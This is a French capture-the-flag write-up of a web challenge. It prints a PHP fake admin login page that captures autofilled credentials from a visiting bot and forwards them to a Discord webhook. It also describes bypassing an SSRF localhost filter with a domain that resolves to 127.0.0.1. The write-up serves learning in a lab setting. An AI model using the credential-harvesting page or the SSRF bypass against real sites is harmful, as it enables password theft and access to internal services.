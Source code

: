Ce challenge est un challenge web, il y a deux serveurs web, un en local et un en ligne. Nous avons accès au code source !

### Page de connexion

![](1.png)

Le premier serveur web est un panneau d'administration, il y a un formulaire de connexion, et un champ pour le mot de passe. On peut trouver dans le code source que l'utilisateur est `admin`.

On peut aussi voir que l'authentification se fait en testant un cookie avec PASSWORD qui est inconnu.

Mais il est possible de faire un *report* qui nous demande alors dans une boîte de dialogue de rentrer une URL et répondant *admin will visit*.

On peut alors voir dans le code source qu'une requête est faite sur cette page, et qu'une tentative de connexion est faite avec le bon mot de passe.

Il nous suffit de faire une page qui serait capable de nous retransmettre le mot de passe reçu. C'est ce que j'ai donc fait, en PHP parce que c'est ce que j'avais sous la main et renvoyant le mot de passe reçu dans un webhook Discord :

```php
<?php

$url = "https://discord.com/api/webhooks/bonjour_je_suis_un_webhook_gentil_blip_bloup";

$data = array('content' => 
    'Connexion via l\'adresse '.$_SERVER['REMOTE_ADDR']."\n"
    .json_encode($_REQUEST)."\n"
    .file_get_contents('php://input')."\n"."OK");

$options = array(
    'http' => array(
        'header'  => "Content-type: application/x-www-form-urlencoded\r\n",
        'method'  => 'POST',
        'content' => http_build_query($data)
    )
);
$context  = stream_context_create($options);
$result = file_get_contents($url, false, $context);
?>

<html>
    <head>
        <title>Super Admin Panel</title>
    </head>
    <body>
        <form action=".">
            <input name="username" type="text">
            <input name="password" type="password">
            <button type="submit" value="Submit">Login</button>
            <button id="pwn" type="button">&nbsp;</button>
        </form>
    </body>
</html>
```

On reçoit alors le mot de passe dans Discord : **goodluckcrackingthis_012391293**.

Il nous reste juste à le mettre dans les cookies avec : `document.cookie = "passw=goodluckcrackingthis_012391293"` puis soumettre le formulaire.


### Page de l'admin

![](2.png)

On a désormais accès à une page de *test de fonctionnalité d'un site web*. Dans le code source on peut comprendre que cette page est capable de faire des requêtes HTTP.

> Pourrait-elle nous permettre d'accéder au serveur local ?

Non, car il est impossible d'utiliser une adresse IP, le serveur cherche dans tous les cas à résoudre le nom de domaine. Et il y a une vérification de nom de domaines, localhost et les adresses locales sont rejetées.

Il nous faut donc trouver un moyen de faire pointer une adresse IP vers le serveur local. On peut alors utiliser un nom de domaine qui pointe vers 127.0.0.1, par exemple `self.ambi.dev`.

On met alors `http://self.ambi.dev:1337` dans la boîte de dialogue, clique sur *Go* et le flag apparaît !!!

![](3.png)

**flag{I_L0v3_st34ling_auTOf1ll}**